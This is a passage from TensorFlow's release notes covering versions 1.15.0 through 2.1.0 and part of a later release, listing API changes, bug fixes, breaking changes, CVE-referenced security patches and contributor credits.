    *   For `tf.Tensor` & `tf.Variable`, `.experimental_ref()` is no longer
        experimental and is available as simply `.ref()`.
    *   `pfor/vectorized_map`: Added support for vectorizing 56 more ops.
        Vectorizing `tf.cond` is also supported now.
    *   Set as much partial shape as we can infer statically within the gradient
        impl of the gather op.
    *   Gradient of `tf.while_loop` emits `StatelessWhile` op if `cond` and body
        functions are stateless. This allows multiple gradients while ops to run
        in parallel under distribution strategy.
    *   Speed up `GradientTape` in eager mode by auto-generating list of op
        inputs/outputs which are unused and hence not cached for gradient
        functions.
    *   Support `back_prop=False` in `while_v2` but mark it as deprecated.
    *   Improve error message when attempting to use `None` in data-dependent
        control flow.
    *   Add `RaggedTensor.numpy()`.
    *   Update `RaggedTensor.__getitem__` to preserve uniform dimensions & allow
        indexing into uniform dimensions.
    *   Update `tf.expand_dims` to always insert the new dimension as a
        non-ragged dimension.
    *   Update `tf.embedding_lookup` to use `partition_strategy` and `max_norm`
        when `ids` is ragged.
    *   Allow `batch_dims==rank(indices)` in `tf.gather`.
    *   Add support for bfloat16 in `tf.print`.
*   `tf.distribute`:
    *   Support `embedding_column` with variable-length input features for
        `MultiWorkerMirroredStrategy`.
*   `tf.keras`:
    *   Added `experimental_aggregate_gradients` argument to
        `tf.keras.optimizer.Optimizer.apply_gradients`. This allows custom
        gradient aggregation and processing aggregated gradients in custom
        training loop.
    *   Allow `pathlib.Path` paths for loading models via Keras API.
*   `tf.function`/AutoGraph:
    *   AutoGraph is now available in `ReplicaContext.merge_call`,
        `Strategy.extended.update` and `Strategy.extended.update_non_slot`.
    *   Experimental support for shape invariants has been enabled in
        `tf.function`. See the API docs for
        `tf.autograph.experimental.set_loop_options` for additional info.
    *   AutoGraph error messages now exclude frames corresponding to APIs
        internal to AutoGraph.
    *   Improve shape inference for `tf.function` input arguments to unlock more
        Grappler optimizations in TensorFlow 2.x.
    *   Improve automatic control dependency management of resources by allowing
        resource reads to occur in parallel and synchronizing only on writes.
    *   Fix execution order of multiple stateful calls to `experimental_run_v2`
        in `tf.function`.
    *   You can now iterate over `RaggedTensors` using a for loop inside
        `tf.function`.
*   `tf.lite`:
    *   Migrated the `tf.lite` C inference API out of experimental into lite/c.
    *   Add an option to disallow `NNAPI` CPU / partial acceleration on Android
        10
    *   TFLite Android AARs now include the C headers and APIs are required to
        use TFLite from native code.
    *   Refactors the delegate and delegate kernel sources to allow usage in the
        linter.
    *   Limit delegated ops to actually supported ones if a device name is
        specified or `NNAPI` CPU Fallback is disabled.
    *   TFLite now supports `tf.math.reciprocal1` op by lowering to `tf.div op`.
    *   TFLite's unpack op now supports boolean tensor inputs.
    *   Microcontroller and embedded code moved from experimental to main
        TensorFlow Lite folder
    *   Check for large TFLite tensors.
    *   Fix GPU delegate crash with C++17.
    *   Add 5D support to TFLite `strided_slice`.
    *   Fix error in delegation of `DEPTH_TO_SPACE` to `NNAPI` causing op not to
        be accelerated.
    *   Fix segmentation fault when running a model with LSTM nodes using
        `NNAPI` Delegate
    *   Fix `NNAPI` delegate failure when an operand for Maximum/Minimum
        operation is a scalar.
    *   Fix `NNAPI` delegate failure when Axis input for reduce operation is a
        scalar.
    *   Expose option to limit the number of partitions that will be delegated
        to `NNAPI`.
    *   If a target accelerator is specified, use its feature level to determine
        operations to delegate instead of SDK version.
*   `tf.random`:
    *   Various random number generation improvements:
    *   Add a fast path for default `random_uniform`
    *   `random_seed` documentation improvement.
    *   `RandomBinomial` broadcasts and appends the sample shape to the left
        rather than the right.
    *   Added `tf.random.stateless_binomial`, `tf.random.stateless_gamma`,
        `tf.random.stateless_poisson`
    *   `tf.random.stateless_uniform` now supports unbounded sampling of `int`
        types.
*   Math and Linear Algebra:
    *   Add `tf.linalg.LinearOperatorTridiag`.
    *   Add `LinearOperatorBlockLowerTriangular`
    *   Add broadcasting support to
        tf.linalg.triangular_solve[#26204](https://github.com/tensorflow/tensorflow/issues/26204),
        tf.math.invert_permutation.
    *   Add `tf.math.sobol_sample` op.
    *   Add `tf.math.xlog1py`.
    *   Add `tf.math.special.{dawsn,expi,fresnel_cos,fresnel_sin,spence}`.
    *   Add a Modified Discrete Cosine Transform (MDCT) and its inverse to
        `tf.signal`.
*   TPU Enhancements:
    *   Refactor `TpuClusterResolver` to move shared logic to a separate pip
        package.
    *   Support configuring TPU software version from cloud tpu client.
    *   Allowed TPU embedding weight decay factor to be multiplied by learning
        rate.
*   XLA Support:
    *   Add standalone XLA AOT runtime target + relevant .cc sources to pip
        package.
    *   Add check for memory alignment to MemoryAllocation::MemoryAllocation()
        on 32-bit ARM. This ensures a deterministic early exit instead of a hard
        to debug bus error later.
    *   `saved_model_cli aot_compile_cpu` allows you to compile saved models to
        XLA header+object files and include them in your C++ programs.
    *   Enable `Igamma`, `Igammac` for XLA.
*   Deterministic Op Functionality:
    *   XLA reduction emitter is deterministic when the environment variable
        `TF_DETERMINISTIC_OPS` is set to "true" or "1". This extends
        deterministic `tf.nn.bias_add` back-prop functionality (and therefore
        also deterministic back-prop of bias-addition in Keras layers) to
        include when XLA JIT compilation is enabled.
    *   Fix problem, when running on a CUDA GPU and when either environment
        variable `TF_DETERMINISTIC_OPS` or environment variable
        `TF_CUDNN_DETERMINISTIC` is set to "true" or "1", in which some layer
        configurations led to an exception with the message "No algorithm
        worked!"
*   Tracing and Debugging:
    *   Add source, destination name to `_send` traceme to allow easier
        debugging.
    *   Add traceme event to `fastpathexecute`.
*   Other:
    *   Fix an issue with AUC.reset_states for multi-label AUC
        [#35852](https://github.com/tensorflow/tensorflow/issues/35852)
    *   Fix the TF upgrade script to not delete files when there is a parsing
        error and the output mode is `in-place`.
    *   Move `tensorflow/core:framework/*_pyclif` rules to
        `tensorflow/core/framework:*_pyclif`.

## Thanks to our Contributors

This release contains contributions from many people at Google, as well as:

372046933, 8bitmp3, aaronhma, Abin Shahab, Aditya Patwardhan, Agoniii, Ahti Kitsik, Alan Yee, Albin Joy, Alex Hoffman, Alexander Grund, Alexandre E. Eichenberger, Amit Kumar Jaiswal, amoitra, Andrew Anderson, Angus-Luo, Anthony Barbier, Anton Kachatkou, Anuj Rawat, archis, Arpan-Dhatt, Arvind Sundararajan, Ashutosh Hathidara, autoih, Bairen Yi, Balint Cristian, Bas Aarts, BashirSbaiti, Basit Ayantunde, Ben Barsdell, Benjamin Gaillard, boron, Brett Koonce, Bryan Cutler, Christian Goll, Christian Sachs, Clayne Robison, comet, Daniel Falbel, Daria Zhuravleva, darsh8200, David Truby, Dayananda-V, deepakm, Denis Khalikov, Devansh Singh, Dheeraj R Reddy, Diederik Van Liere, Diego Caballero, Dominic Jack, dothinking, Douman, Drake Gens, Duncan Riach, Ehsan Toosi, ekuznetsov139, Elena Zhelezina, elzino, Ending2015a, Eric Schweitz, Erik Zettel, Ethan Saadia, Eugene Kuznetsov, Evgeniy Zheltonozhskiy, Ewout Ter Hoeven, exfalso, FAIJUL, Fangjun Kuang, Fei Hu, Frank Laub, Frederic Bastien, Fredrik Knutsson, frreiss, Frédéric Rechtenstein, fsx950223, Gaurav Singh, gbaned, George Grzegorz Pawelczak, George Sterpu, Gian Marco Iodice, Giorgio Arena, Hans Gaiser, Hans Pabst, Haoyu Wu, Harry Slatyer, hsahovic, Hugo, Hugo Sjöberg, IrinaM21, jacco, Jake Tae, Jean-Denis Lesage, Jean-Michel Gorius, Jeff Daily, Jens Elofsson, Jerry Shih, jerryyin, Jin Mingjian, Jinjing Zhou, JKIsaacLee, jojimonv, Jonathan Dekhtiar, Jose Ignacio Gomez, Joseph-Rance, Judd, Julian Gross, Kaixi Hou, Kaustubh Maske Patil, Keunwoo Choi, Kevin Hanselman, Khor Chean Wei, Kilaru Yasaswi Sri Chandra Gandhi, Koan-Sin Tan, Koki Ibukuro, Kristian Holsheimer, kurileo, Lakshay Tokas, Lee Netherton, leike666666, Leslie-Fang-Intel, Li, Guizi, LIUJIAN435, Lukas Geiger, Lyo Nguyen, madisetti, Maher Jendoubi, Mahmoud Abuzaina, Manuel Freiberger, Marcel Koester, Marco Jacopo Ferrarotti, Markus Franke, marload, Mbah-Javis, mbhuiyan, Meng Zhang, Michael Liao, MichaelKonobeev, Michal Tarnowski, Milan Straka, minoring, Mohamed Nour Abouelseoud, MoussaMM, Mrinal Jain, mrTsjolder, Måns Nilsson, Namrata Bhave, Nicholas Gao, Niels Ole Salscheider, nikochiko, Niranjan Hasabnis, Nishidha Panpaliya, nmostafa, Noah Trenaman, nuka137, Officium, Owen L - Sfe, Pallavi G, Paul Andrey, Peng Sun, Peng Wu, Phil Pearl, PhilipMay, pingsutw, Pooya Davoodi, PragmaTwice, pshiko, Qwerty71, R Gomathi, Rahul Huilgol, Richard Xiao, Rick Wierenga, Roberto Rosmaninho, ruchit2801, Rushabh Vasani, Sami, Sana Damani, Sarvesh Dubey, Sasan Jafarnejad, Sergii Khomenko, Shane Smiskol, Shaochen Shi, sharkdtu, Shawn Presser, ShengYang1, Shreyash Patodia, Shyam Sundar Dhanabalan, Siju Samuel, Somyajit Chakraborty Sam, Srihari Humbarwadi, srinivasan.narayanamoorthy, Srishti Yadav, Steph-En-M, Stephan Uphoff, Stephen Mugisha, SumanSudhir, Taehun Kim, Tamas Bela Feher, TengLu, Tetragramm, Thierry Herrmann, Tian Jin, tigertang, Tom Carchrae, Tom Forbes, Trent Lo, Victor Peng, vijayphoenix, Vincent Abriou, Vishal Bhola, Vishnuvardhan Janapati, vladbataev, VoVAllen, Wallyss Lima, Wen-Heng (Jack) Chung, wenxizhu, William D. Irons, William Zhang, Xiaoming (Jason) Cui, Xiaoquan Kong, Xinan Jiang, Yasir Modak, Yasuhiro Matsumoto, Yaxun (Sam) Liu, Yong Tang, Ytyt-Yt, yuan, Yuan Mingshuai, Yuan Tang, Yuki Ueda, Yusup, zhangshijin, zhuwenxi

# Release 2.0.1

## Bug Fixes and Other Changes
* Fixes a security vulnerability where converting a Python string to a `tf.float16` value produces a segmentation fault ([CVE-2020-5215](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-5215))
* Updates `curl` to `7.66.0` to handle [CVE-2019-5482](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-5482) and [CVE-2019-5481](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-5481)
* Updates `sqlite3` to `3.30.01` to handle [CVE-2019-19646](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-19646), [CVE-2019-19645](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-19645) and [CVE-2019-16168](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-16168)


# Release 1.15.2

## Bug Fixes and Other Changes
* Fixes a security vulnerability where converting a Python string to a `tf.float16` value produces a segmentation fault ([CVE-2020-5215](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-5215))
* Updates `curl` to `7.66.0` to handle [CVE-2019-5482](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-5482) and [CVE-2019-5481](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-5481)
* Updates `sqlite3` to `3.30.01` to handle [CVE-2019-19646](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-19646), [CVE-2019-19645](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-19645) and [CVE-2019-16168](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-16168)


# Release 2.1.0

TensorFlow 2.1 will be the last TF release supporting Python 2. Python 2 support [officially ends an January 1, 2020](https://www.python.org/dev/peps/pep-0373/#update). [As announced earlier](https://groups.google.com/a/tensorflow.org/d/msg/announce/gVwS5RC8mds/dCt1ka2XAAAJ), TensorFlow will also stop supporting Python 2 starting January 1, 2020, and no more releases are expected in 2019.

## Major Features and Improvements

*   The `tensorflow` pip package now includes GPU support by default (same as
    `tensorflow-gpu`) for both Linux and Windows. This runs on machines with and
    without NVIDIA GPUs. `tensorflow-gpu` is still available, and CPU-only
    packages can be downloaded at `tensorflow-cpu` for users who are concerned
    about package size.
*   **Windows users:** Officially-released `tensorflow` Pip packages are now
    built with Visual Studio 2019 version 16.4 in order to take advantage of the
    new `/d2ReducedOptimizeHugeFunctions` compiler flag. To use these new
    packages, you must install "Microsoft Visual C++ Redistributable for Visual
    Studio 2015, 2017 and 2019", available from Microsoft's website
    [here](https://support.microsoft.com/help/2977003/the-latest-supported-visual-c-downloads).
    *   This does not change the minimum required version for building
        TensorFlow from source on Windows, but builds enabling
        `EIGEN_STRONG_INLINE` can take over 48 hours to compile without this
        flag. Refer to `configure.py` for more information about
        `EIGEN_STRONG_INLINE` and `/d2ReducedOptimizeHugeFunctions`.
    *   If either of the required DLLs, `msvcp140.dll` (old) or `msvcp140_1.dll`
        (new), are missing on your machine, `import tensorflow` will print a
        warning message.
*   The `tensorflow` pip package is built with CUDA 10.1 and cuDNN 7.6.
*   `tf.keras`
    *   Experimental support for mixed precision is available on GPUs and Cloud
        TPUs. See
        [usage guide](https://www.tensorflow.org/guide/keras/mixed_precision).
    *   Introduced the `TextVectorization` layer, which takes as input raw
        strings and takes care of text standardization, tokenization, n-gram
        generation, and vocabulary indexing. See this
        [end-to-end text classification example](https://colab.research.google.com/drive/1RvCnR7h0_l4Ekn5vINWToI9TNJdpUZB3).
    *   Keras `.compile` `.fit` `.evaluate` and `.predict` are allowed to be
        outside of the DistributionStrategy scope, as long as the model was
        constructed inside of a scope.
    *   Experimental support for Keras `.compile`, `.fit`, `.evaluate`, and
        `.predict` is available for Cloud TPUs, Cloud TPU, for all types of
        Keras models (sequential, functional and subclassing models).
    *   Automatic outside compilation is now enabled for Cloud TPUs. This allows
        `tf.summary` to be used more conveniently with Cloud TPUs.
    *   Dynamic batch sizes with DistributionStrategy and Keras are supported on
        Cloud TPUs.
    *   Support for `.fit`, `.evaluate`, `.predict` on TPU using numpy data, in
        addition to `tf.data.Dataset`.
    *   Keras reference implementations for many popular models are available in
        the TensorFlow
        [Model Garden](https://github.com/tensorflow/models/tree/master/official).
*   `tf.data`
    *   Changes rebatching for `tf.data datasets` + DistributionStrategy for
        better performance. Note that the dataset also behaves slightly
        differently, in that the rebatched dataset cardinality will always be a
        multiple of the number of replicas.
    *   `tf.data.Dataset` now supports automatic data distribution and sharding
        in distributed environments, including on TPU pods.
    *   Distribution policies for `tf.data.Dataset` can now be tuned with 1.
        `tf.data.experimental.AutoShardPolicy(OFF, AUTO, FILE, DATA)` 2.
        `tf.data.experimental.ExternalStatePolicy(WARN, IGNORE, FAIL)`
*   `tf.debugging`
    *   Add `tf.debugging.enable_check_numerics()` and
        `tf.debugging.disable_check_numerics()` to help debugging the root
        causes of issues involving infinities and `NaN`s.
*   `tf.distribute`
    *   Custom training loop support on TPUs and TPU pods is available through
        `strategy.experimental_distribute_dataset`,
        `strategy.experimental_distribute_datasets_from_function`,
        `strategy.experimental_run_v2`, `strategy.reduce`.
    *   Support for a global distribution strategy through
        `tf.distribute.experimental_set_strategy(),` in addition to
        `strategy.scope()`.
*   `TensorRT`
    *   [TensorRT 6.0](https://developer.nvidia.com/tensorrt#tensorrt-whats-new)
        is now supported and enabled by default. This adds support for more
        TensorFlow ops including Conv3D, Conv3DBackpropInputV2, AvgPool3D,
        MaxPool3D, ResizeBilinear, and ResizeNearestNeighbor. In addition, the
        TensorFlow-TensorRT python conversion API is exported as
        `tf.experimental.tensorrt.Converter`.
*   Environment variable `TF_DETERMINISTIC_OPS` has been added. When set to
    "true" or "1", this environment variable makes `tf.nn.bias_add` operate
    deterministically (i.e. reproducibly), but currently only when XLA JIT
    compilation is *not* enabled. Setting `TF_DETERMINISTIC_OPS` to "true" or
    "1" also makes cuDNN convolution and max-pooling operate deterministically.
    This makes Keras Conv\*D and MaxPool\*D layers operate deterministically in
    both the forward and backward directions when running on a CUDA-enabled GPU.

## Breaking Changes
* Deletes `Operation.traceback_with_start_lines` for which we know of no usages.
* Removed `id` from `tf.Tensor.__repr__()` as `id` is not useful other than internal debugging.
* Some `tf.assert_*` methods now raise assertions at operation creation time if the input tensors' values are known at that time, not during the `session.run()`. This only changes behavior when the graph execution would have resulted in an error. When this happens, a noop is returned and the input tensors are marked non-feedable. In other words, if they are used as keys in `feed_dict` argument to `session.run()`, an error will be raised. Also, because some assert ops don't make it into the graph, the graph structure changes. A different graph can result in different per-op random seeds when they are not given explicitly (most often).
* The following APIs are not longer experimental: `tf.config.list_logical_devices`, `tf.config.list_physical_devices`, `tf.config.get_visible_devices`, `tf.config.set_visible_devices`, `tf.config.get_logical_device_configuration`, `tf.config.set_logical_device_configuration`.
* `tf.config.experimentalVirtualDeviceConfiguration` has been renamed to `tf.config.LogicalDeviceConfiguration`.
* `tf.config.experimental_list_devices` has been removed, please use
`tf.config.list_logical_devices`.

## Bug Fixes and Other Changes
* `tf.data`
  * Fixes concurrency issue with `tf.data.experimental.parallel_interleave` with `sloppy=True`.
  * Add `tf.data.experimental.dense_to_ragged_batch()`.
  * Extend `tf.data` parsing ops to support `RaggedTensors`.
* `tf.distribute`
  * Fix issue where GRU would crash or give incorrect output when a `tf.distribute.Strategy` was used.
* `tf.estimator`
  * Added option in `tf.estimator.CheckpointSaverHook` to not save the `GraphDef`.
  * Moving the checkpoint reader from swig to pybind11.
* `tf.keras`
  * Export `depthwise_conv2d` in `tf.keras.backend`.
  * In Keras Layers and Models, Variables in `trainable_weights`, `non_trainable_weights`, and `weights` are explicitly deduplicated.
  * Keras `model.load_weights` now accepts `skip_mismatch` as an argument. This was available in external Keras, and has now been copied over to `tf.keras`.
  * Fix the input shape caching behavior of Keras convolutional layers.
  * `Model.fit_generator`, `Model.evaluate_generator`, `Model.predict_generator`, `Model.train_on_batch`, `Model.test_on_batch`, and `Model.predict_on_batch` methods now respect the `run_eagerly` property, and will correctly run using `tf.function` by default. Note that `Model.fit_generator`, `Model.evaluate_generator`, and `Model.predict_generator` are deprecated endpoints. They are subsumed by `Model.fit`, `Model.evaluate`, and `Model.predict` which now support generators and Sequences.
* `tf.lite`
  * Legalization for `NMS` ops in TFLite.
  * add `narrow_range` and `axis` to `quantize_v2` and `dequantize` ops.
  * Added support for `FusedBatchNormV3` in converter.
  * Add an `errno`-like field to `NNAPI` delegate for detecting `NNAPI` errors for fallback behaviour.
  * Refactors `NNAPI` Delegate to support detailed reason why an operation is not accelerated.
  * Converts hardswish subgraphs into atomic ops.
* Other
  * Critical stability updates for TPUs, especially in cases where the XLA compiler produces compilation errors.
  * TPUs can now be re-initialized multiple times, using `tf.tpu.experimental.initialize_tpu_system`.
  * Add `RaggedTensor.merge_dims()`.
  * Added new `uniform_row_length` row-partitioning tensor to `RaggedTensor`.
  * Add `shape` arg to `RaggedTensor.to_tensor`; Improve speed of `RaggedTensor.to_tensor`.
  * `tf.io.parse_sequence_example` and `tf.io.parse_single_sequence_example` now support ragged features.
  * Fix `while_v2` with variables in custom gradient.
  * Support taking gradients of V2 `tf.cond` and `tf.while_loop` using `LookupTable`.
  * Fix bug where `vectorized_map` failed on inputs with unknown static shape.
  * Add preliminary support for sparse CSR matrices.
  * Tensor equality with `None` now behaves as expected.
  * Make calls to `tf.function(f)()`, `tf.function(f).get_concrete_function` and `tf.function(f).get_initialization_function` thread-safe.
  * Extend `tf.identity` to work with CompositeTensors (such as SparseTensor)
  * Added more `dtypes` and zero-sized inputs to `Einsum` Op and improved its performance
  * Enable multi-worker `NCCL` `all-reduce` inside functions executing eagerly.
  * Added complex128 support to `RFFT`, `RFFT2D`, `RFFT3D`, `IRFFT`, `IRFFT2D`, and `IRFFT3D`.
  * Add `pfor` converter for `SelfAdjointEigV2`.
  * Add `tf.math.ndtri` and `tf.math.erfinv`.
  * Add `tf.config.experimental.enable_mlir_bridge` to allow using MLIR compiler bridge in eager model.
  * Added support for MatrixSolve on Cloud TPU / XLA.
  * Added `tf.autodiff.ForwardAccumulator` for forward-mode autodiff
  * Add `LinearOperatorPermutation`.
  * A few performance optimizations on `tf.reduce_logsumexp`.
  * Added multilabel handling to `AUC` metric
  * Optimization on `zeros_like`.
  * Dimension constructor now requires `None` or types with an `__index__` method.
  * Add `tf.random.uniform` microbenchmark.
  * Use `_protogen` suffix for proto library targets instead of `_cc_protogen` suffix.
  * Moving the checkpoint reader from `swig` to `pybind11`.
  * `tf.device` & `MirroredStrategy` now supports passing in a `tf.config.LogicalDevice`
  * If you're building Tensorflow from source, consider using [bazelisk](https://github.com/bazelbuild/bazelisk) to automatically download and use the correct Bazel version. Bazelisk reads the `.bazelversion` file at the root of the project directory.

## Thanks to our Contributors

This release contains contributions from many people at Google, as well as:

8bitmp3, Aaron Ma, AbdüLhamit Yilmaz, Abhai Kollara, aflc, Ag Ramesh, Albert Z. Guo, Alex Torres, amoitra, Andrii Prymostka, angeliand, Anshuman Tripathy, Anthony Barbier, Anton Kachatkou, Anubh-V, Anuja Jakhade, Artem Ryabov, autoih, Bairen Yi, Bas Aarts, Basit Ayantunde, Ben Barsdell, Bhavani Subramanian, Brett Koonce, candy.dc, Captain-Pool, caster, cathy, Chong Yan, Choong Yin Thong, Clayne Robison, Colle, Dan Ganea, David Norman, David Refaeli, dengziming, Diego Caballero, Divyanshu, djshen, Douman, Duncan Riach, EFanZh, Elena Zhelezina, Eric Schweitz, Evgenii Zheltonozhskii, Fei Hu, fo40225, Fred Reiss, Frederic Bastien, Fredrik Knutsson, fsx950223, fwcore, George Grzegorz Pawelczak, George Sterpu, Gian Marco Iodice, Giorgio Arena, giuros01, Gomathi Ramamurthy, Guozhong Zhuang, Haifeng Jin, Haoyu Wu, HarikrishnanBalagopal, HJYOO, Huang Chen-Yi, Ilham Firdausi Putra, Imran Salam, Jared Nielsen, Jason Zaman, Jasper Vicenti, Jeff Daily, Jeff Poznanovic, Jens Elofsson, Jerry Shih, jerryyin, Jesper Dramsch, jim.meyer, Jongwon Lee, Jun Wan, Junyuan Xie, Kaixi Hou, kamalkraj, Kan Chen, Karthik Muthuraman, Keiji Ariyama, Kevin Rose, Kevin Wang, Koan-Sin Tan, kstuedem, Kwabena W. Agyeman, Lakshay Tokas, latyas, Leslie-Fang-Intel, Li, Guizi, Luciano Resende, Lukas Folle, Lukas Geiger, Mahmoud Abuzaina, Manuel Freiberger, Mark Ryan, Martin Mlostek, Masaki Kozuki, Matthew Bentham, Matthew Denton, mbhuiyan, mdfaijul, Muhwan Kim, Nagy Mostafa, nammbash, Nathan Luehr, Nathan Wells, Niranjan Hasabnis, Oleksii Volkovskyi, Olivier Moindrot, olramde, Ouyang Jin, OverLordGoldDragon, Pallavi G, Paul Andrey, Paul Wais, pkanwar23, Pooya Davoodi, Prabindh Sundareson, Rajeshwar Reddy T, Ralovich, Kristof, Refraction-Ray, Richard Barnes, richardbrks, Robert Herbig, Romeo Kienzler, Ryan Mccormick, saishruthi, Saket Khandelwal, Sami Kama, Sana Damani, Satoshi Tanaka, Sergey Mironov, Sergii Khomenko, Shahid, Shawn Presser, ShengYang1, Siddhartha Bagaria, Simon Plovyt, skeydan, srinivasan.narayanamoorthy, Stephen Mugisha, sunway513, Takeshi Watanabe, Taylor Jakobson, TengLu, TheMindVirus, ThisIsIsaac, Tim Gates, Timothy Liu, Tomer Gafner, Trent Lo, Trevor Hickey, Trevor Morris, vcarpani, Wei Wang, Wen-Heng (Jack) Chung, wenshuai, Wenshuai-Xiaomi, wenxizhu, william, William D. Irons, Xinan Jiang, Yannic, Yasir Modak, Yasuhiro Matsumoto, Yong Tang, Yongfeng Gu, Youwei Song, Zaccharie Ramzi, Zhang, Zhenyu Guo, 王振华 (Zhenhua Wang), 韩董, 이중건 Isaac Lee

# Release 1.15.0
This is the last 1.x release for TensorFlow. We do not expect to update the 1.x branch with features, although we will issue patch releases to fix vulnerabilities for at least one year.

## Major Features and Improvements
* As [announced](https://groups.google.com/a/tensorflow.org/forum/#!topic/developers/iRCt5m4qUz0), `tensorflow` pip package will by default include GPU support (same as `tensorflow-gpu` now) for the platforms we currently have GPU support (Linux and Windows). It will work on machines with and without Nvidia GPUs. `tensorflow-gpu` will still be available, and CPU-only packages can be downloaded at `tensorflow-cpu` for users who are concerned about package size.
* TensorFlow 1.15 contains a complete implementation of the 2.0 API in its `compat.v2` module. It contains a copy of the 1.15 main module (without `contrib`) in the `compat.v1` module. TensorFlow 1.15 is able to emulate 2.0 behavior using the `enable_v2_behavior()` function.
This enables writing forward compatible code: by explicitly importing either `tensorflow.compat.v1` or `tensorflow.compat.v2`, you can ensure that your code works without modifications against an installation of 1.15 or 2.0.
* EagerTensor now supports numpy buffer interface for tensors.
* Add toggles `tf.enable_control_flow_v2()` and `tf.disable_control_flow_v2()` for enabling/disabling v2 control flow.
* Enable v2 control flow as part of `tf.enable_v2_behavior()` and `TF2_BEHAVIOR=1`.
* AutoGraph translates Python control flow into TensorFlow expressions, allowing users to write regular Python inside `tf.function`-decorated functions. AutoGraph is also applied in functions used with `tf.data`, `tf.distribute` and `tf.keras` APIS.
* Adds `enable_tensor_equality()`, which switches the behavior such that:
  * Tensors are no longer hashable.
  * Tensors can be compared with `==` and `!=`, yielding a Boolean Tensor with element-wise comparison results. This will be the default behavior in 2.0.

## Breaking Changes
* Tensorflow code now produces 2 different pip packages: `tensorflow_core` containing all the code (in the future it will contain only the private implementation) and `tensorflow` which is a virtual pip package doing forwarding to `tensorflow_core` (and in the future will contain only the public API of tensorflow). We don't expect this to be breaking, unless you were importing directly from the implementation.
* TensorFlow 1.15 is built using devtoolset7 (GCC7) on Ubuntu 16. This may lead to ABI incompatibilities with extensions built against earlier versions of TensorFlow.
* Deprecated the use of `constraint=` and `.constraint` with ResourceVariable.
* `tf.keras`:
  * `OMP_NUM_THREADS` is no longer used by the default Keras config. To configure the number of threads, use `tf.config.threading` APIs.
  * `tf.keras.model.save_model` and `model.save` now defaults to saving a TensorFlow SavedModel.
  * `keras.backend.resize_images` (and consequently, `keras.layers.Upsampling2D`) behavior has changed, a bug in the resizing implementation was fixed.
  * Layers now default to `float32`, and automatically cast their inputs to the layer's dtype. If you had a model that used `float64`, it will probably silently use `float32` in TensorFlow2, and a warning will be issued that starts with Layer "layer-name" is casting an input tensor from dtype float64 to the layer's dtype of float32. To fix, either set the default dtype to float64 with `tf.keras.backend.set_floatx('float64')`, or pass `dtype='float64'` to each of the Layer constructors. See `tf.keras.layers.Layer` for more information.
  * Some `tf.assert_*` methods now raise assertions at operation creation time (i.e. when this Python line executes) if the input tensors' values are known at that time, not during the session.run(). When this happens, a noop is returned and the input tensors are marked non-feedable. In other words, if they are used as keys in `feed_dict` argument to `session.run()`, an error will be raised. Also, because some assert ops don't make it into the graph, the graph structure changes. A different graph can result in different per-op random seeds when they are not given explicitly (most often).

## Bug Fixes and Other Changes
* `tf.estimator`:
  * `tf.keras.estimator.model_to_estimator` now supports exporting to `tf.train.Checkpoint` format, which allows the saved checkpoints to be compatible with `model.load_weights`.
  * Fix tests in canned estimators.
  * Expose Head as public API.
  * Fixes critical bugs that help with `DenseFeatures` usability in TF2
* `tf.data`:
  * Promoting `unbatch` from experimental to core API.
  * Adding support for datasets as inputs to `from_tensors` and `from_tensor_slices` and batching and unbatching of nested datasets.
* `tf.keras`:
  * `tf.keras.estimator.model_to_estimator` now supports exporting to tf.train.Checkpoint format, which allows the saved checkpoints to be compatible with `model.load_weights`.
  * Saving a Keras Model using `tf.saved_model.save` now saves the list of variables, trainable variables, regularization losses, and the call function.
  * Deprecated `tf.keras.experimental.export_saved_model` and `tf.keras.experimental.function`. Please use `tf.keras.models.save_model(..., save_format='tf')` and `tf.keras.models.load_model` instead.
  * Add an `implementation=3` mode for `tf.keras.layers.LocallyConnected2D` and `tf.keras.layers.LocallyConnected1D` layers using `tf.SparseTensor` to store weights,  allowing a dramatic speedup for large sparse models.
  * Enable the Keras compile API `experimental_run_tf_function` flag by default. This flag enables single training/eval/predict execution path. With this 1. All input types are converted to `Dataset`. 2. When distribution strategy is not specified this goes through the no-op distribution strategy path. 3. Execution is wrapped in tf.function unless `run_eagerly=True` is set in compile.
  * Raise error if `batch_size` argument is used when input is dataset/generator/keras sequence.
* `tf.lite`
  * Add `GATHER` support to NN API delegate.
  * tflite object detection script has a debug mode.
  * Add delegate support for `QUANTIZE`.
  * Added evaluation script for COCO minival.
  * Add delegate support for `QUANTIZED_16BIT_LSTM`.
  * Converts hardswish subgraphs into atomic ops.
* Add support for defaulting the value of `cycle_length` argument of `tf.data.Dataset.interleave` to the number of schedulable CPU cores.
* `parallel_for`: Add converter for `MatrixDiag`.
* Add `narrow_range` attribute to `QuantizeAndDequantizeV2` and V3.
* Added new op: `tf.strings.unsorted_segment_join`.
* Add HW acceleration support for `topK_v2`.
* Add new `TypeSpec` classes.
* CloudBigtable version updated to v0.10.0.
* Expose `Head` as public API.
* Update docstring for gather to properly describe the non-empty `batch_dims` case.
* Added `tf.sparse.from_dense` utility function.
* Improved ragged tensor support in `TensorFlowTestCase`.
* Makes the a-normal form transformation in Pyct configurable as to which nodes are converted to variables and which are not.
* `ResizeInputTensor` now works for all delegates.
* Add `EXPAND_DIMS` support to NN API delegate TEST:  expand_dims_test
* `tf.cond` emits a StatelessIf op if the branch functions are stateless and do not touch any resources.
* `tf.cond`, `tf.while` and `if` and `while` in AutoGraph now accept a nonscalar predicate if has a single element. This does not affect non-V2 control flow.
* `tf.while_loop` emits a StatelessWhile op if the cond and body functions are stateless and do not touch any resources.
* Refactors code in Quant8 LSTM support to reduce TFLite binary size.
* Add support of local soft device placement for eager op.
* Add HW acceleration support for `LogSoftMax`.
* Added a function `nested_value_rowids` for ragged tensors.
* Add guard to avoid acceleration of L2 Normalization with input rank != 4
* Add `tf.math.cumulative_logsumexp operation`.
* Add `tf.ragged.stack`.
* Fix memory allocation problem when calling `AddNewInputConstantTensor`.
